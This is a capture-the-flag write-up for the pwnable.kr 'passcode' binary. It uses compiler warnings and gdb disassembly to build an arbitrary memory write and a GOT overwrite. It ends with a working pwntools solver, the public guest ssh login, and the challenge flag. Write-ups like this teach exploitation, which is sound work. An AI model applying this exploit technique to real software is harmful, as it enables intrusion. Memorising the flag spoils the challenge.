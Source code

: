 Well, first I tracked the warning from gcc compiler.
```
$ gcc passcode.c 
passcode.c: In function ‘login’:
passcode.c:9:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
    9 |         scanf("%d", passcode1);
      |                ~^   ~~~~~~~~~
      |                 |   |
      |                 |   int
      |                 int *
passcode.c:14:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
   14 |         scanf("%d", passcode2);
      |                ~^   ~~~~~~~~~
      |                 |   |
      |                 |   int
      |                 int *
```
It used passcode1, not &passcode1. Hmm..

I cheated the writeups on this problem (since I am pwn-noob!) and the keywords are GOT overwrite and partial RELRO.

```
$ checksec passcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```
According to [#](http://www.lazenca.net/display/TEC/04.RELRO), partial RELRO permits write to got.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048665 <+0>:     push   %ebp      
   0x08048666 <+1>:     mov    %esp,%ebp 
=> 0x08048668 <+3>:     and    $0xfffffff0,%esp
   0x0804866b <+6>:     sub    $0x10,%esp
   0x0804866e <+9>:     movl   $0x80487f0,(%esp)
   0x08048675 <+16>:    call   0x8048450 <puts@plt>
   0x0804867a <+21>:    call   0x8048609 <welcome>
   0x0804867f <+26>:    call   0x8048564 <login>
   0x08048684 <+31>:    movl   $0x8048818,(%esp)
   0x0804868b <+38>:    call   0x8048450 <puts@plt>
   0x08048690 <+43>:    mov    $0x0,%eax
   0x08048695 <+48>:    leave
   0x08048696 <+49>:    ret
End of assembler dump.
```
In main, after running calling welcome, login is called, so welcome function and login function will run on same stack address.
```
(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:     push   %ebp
   0x0804860a <+1>:     mov    %esp,%ebp
   0x0804860c <+3>:     sub    $0x88,%esp
   0x08048612 <+9>:     mov    %gs:0x14,%eax
   0x08048618 <+15>:    mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:    xor    %eax,%eax
   0x0804861d <+20>:    mov    $0x80487cb,%eax
   0x08048622 <+25>:    mov    %eax,(%esp)
   0x08048625 <+28>:    call   0x8048420 <printf@plt>
   0x0804862a <+33>:    mov    $0x80487dd,%eax
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:    mov    $0x80487e3,%eax
   0x08048643 <+58>:    lea    -0x70(%ebp),%edx
   0x08048646 <+61>:    mov    %edx,0x4(%esp)
   0x0804864a <+65>:    mov    %eax,(%esp)
   0x0804864d <+68>:    call   0x8048420 <printf@plt>
...
```
`welcome` calls scanf function which have two arguments. The second argument is `0x4(%esp)`, which is `%edx`, equal to `-0x70(%ebp)`.

```
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     sub    $0x28,%esp
   0x0804856a <+6>:     mov    $0x8048770,%eax
   0x0804856f <+11>:    mov    %eax,(%esp)
   0x08048572 <+14>:    call   0x8048420 <printf@plt>
   0x08048577 <+19>:    mov    $0x8048783,%eax
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:    mov    0x804a02c,%eax
   0x08048590 <+44>:    mov    %eax,(%esp)
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
...
```

`login` calls scanf and its second argument is the value located in memory address `-0x10(%ebp)`, which was controllable by `welcome` scanf function.

## Arbitrary Memory 4-byte Write

If we want to write `0xcafebabe` on address `0xdeafbeef`, do the followings:

1. For the first welcome function input, put first 0x60bytes any value, and next put 4 bytes to be `0xdeafbeef` in Little Endian.
2. For the second login function input, type an integer value `int(0xcafebabe, 16)`

## GOT overwrite

After calling scanf, flush function is called. Using arbitrary write, we can change got of fflush to the address of `system("/bin/cat flag")`.

```
(gdb) disass 0x8048430
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:     jmp    *0x804a004      
   0x08048436 <+6>:     push   $0x8
   0x0804843b <+11>:    jmp    0x8048410       
End of assembler dump.
```

got address of fflush is `0x804a004`.

```
   0x080485ce <+106>:   cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   movl   $0x80487a5,(%esp)
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>        
   0x080485ef <+139>:   leave
   0x080485f0 <+140>:   ret
```
`system("/bin/cat flag")` is at `0x080485e3`. 

## Solver Code
```
from pwn import *

fflush_got_address = 0x804a004
new_got_value = 0x080485e3

sh = ssh('passcode', 'pwnable.kr', password='guest', port=2222)
p = sh.process(['./passcode'])
p.sendline(b'A'*0x60 + p32(fflush_got_address))
p.sendline(str(new_got_value))
p.interactive()
```

flag is `Sorry mom.. I got confused about scanf usage :(`.